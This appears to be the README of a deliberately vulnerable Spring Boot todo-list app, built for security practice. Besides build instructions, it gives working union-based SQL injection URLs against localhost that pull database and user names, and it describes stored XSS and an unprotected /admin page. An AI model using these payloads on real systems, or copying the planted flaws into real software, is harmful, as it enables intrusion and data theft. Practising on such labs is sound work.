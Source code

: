 # Non-Secure TodoList

Todo list have got existing vulnerability

## Getting Started


### How to Run

#### Build Spring Boot Project with Maven
To be able to run your Spring Boot app you will need to first build it. To build and package a Spring Boot app into a single executable Jar file with a Maven, use the below command. You will need to run it from the project folder which contains the pom.xml file.
  ```
  maven package
  ```
  or you can also use
  ```
  mvn install
  ```
  
#### Run Spring Boot app with java -jar command
To run your Spring Boot app from a command line in a Terminal window you can you the java -jar command. This is provided your Spring Boot app was packaged as an executable jar file.  

 ```
 java -jar target/todolist-0.0.1-SNAPSHOT.jar
 ```

#### Run Spring Boot app using Maven
You can also use Maven plugin to run your Spring Boot app. Use the below example to run your Spring Boot app with Maven plugin
  
  ```
  mvn spring-boot:run
  ```


## Running the tests

- Project will start on 8080 port and you can access localhost:8080
- You must register for add post

### SQL INJECTION

- After adding article , go to article detail page for sql injection (lhttp://localhost/post/1)
- Some sql injection script ()

```
  http://localhost:8080/post/1 order by 6--
```

Now we will use Union select statement over here.

```
  http://localhost:8080/post/-1 order by 6--
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows

| Variable/Function  | Output |
| ------------- | ------------- |
| @@hostname  | Current Hostname  |
| @@tmpdir  | Tept Directory  |
| @@datadir  | Data Directory  |
| @@version  | Version of DB  |
| @@basedir  | Base Directory  |
| user()  | Current User  |
| database()  | Current Database  |
| version()  | Version  |
| schema()  | current Database  |
| UUID()  | System UUID key  |
| current_user()  | Current User  |
| system_user()  | Current System User  |
| session_user  | Current Session User  |
| @@GLOBAL.have_symlink  | Check if Symlink Enabled or Disabled  |
| @@GLOBAL.have_ssl  | Check if it have ssl or not  |


As we know that third is the column which is getting printed so now we will use the above functions on place of that columns only.

```
To get the Current Database Name
http://localhost:8080/post/-1 union select 1,2,database(),4,5,6--
```

```
To get the Current User
http://localhost:8080/post/-1 union select 1,2,user(),4,5,6--
```

Query : Select column1 from tablename

```
http://localhost:8080/post/-1 union Select 1,2,concat(USER_NAME),4,5,6 from User limit 0,1--

```

This allows access to other user information.

### Cross Site Scripting (XSS)

### Stored/Persistent XSS
 Where the malicious string originates from the website's database.
 
 -You can add scripting code into post title input then you execute this code.
 
## FINAL PROJECT UPDATE
 
### Security Misconfiguration

You can enter post detail page and put quotes after the url and site shows you vulnerability on screen

### Broken Access Control

if you create new user ,you can try to access /admin page and you see this user access this url becouse of there is no 'OPA' control 




